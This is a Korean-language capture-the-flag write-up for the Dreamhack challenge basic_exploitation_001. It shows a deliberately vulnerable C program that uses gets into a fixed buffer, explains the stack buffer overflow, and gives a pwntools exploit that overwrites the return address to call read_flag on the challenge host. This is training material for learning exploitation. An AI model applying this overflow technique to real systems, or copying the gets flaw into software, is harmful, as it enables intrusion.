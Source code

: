 # [Dreamhack] basic_exploitation_001(SBO)

---

![Untitled](./[Dreamhack]_basic_exploitation_001(SBO).assets/Untitled.png)

### 문제 소스코드

```python
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void read_flag() {
    system("cat /flag");
}

int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();
    
    gets(buf);

    return 0;
}

```

### 1. 취약점 분석

- `gets` 함수를 사용해 string 값을 길이에 상관없이 입력을 받는 것을 확인
- 해당 main함수에 `return address` 를 `read_flag()` 함수에 주소로 설정하면 Flag값을 획득 할 수 있을 것 같음

### 2. 디버깅

- `main` 함수에 breakpoint를 설정하고 스택 구조를 확인
- 스택 구조는 아래와 같음

![Untitled](./[Dreamhack]_basic_exploitation_001(SBO).assets/Untitled%201.png)

![Untitled](./[Dreamhack]_basic_exploitation_001(SBO).assets/Untitled%202.png)

- 디버깅을 통해서 `read_flag()` 함수에 주소를 확인
    - `0x80485b9`

![Untitled](./[Dreamhack]_basic_exploitation_001(SBO).assets/Untitled%203.png)

### 3. 익스플로잇

- 해당 문제에서는 바로 Python 익스플로잇 코드를 작성
    - `p32(0x080485b9)` 주소를 바이트 형식으로 추가하기 위해 `p32` 함수를 사용해야 함.
    - 이는 주소를 리틀 엔디안 형식으로 변환하여 올바르게 페이로드에 추가해줌

```python
from pwn import *

context.arch="i386"
p = remote('host3.dreamhack.games', 14077)
payload = b"A"*(132)
payload += p32(0x080485b9)
p.sendline(payload)
p.interactive()
```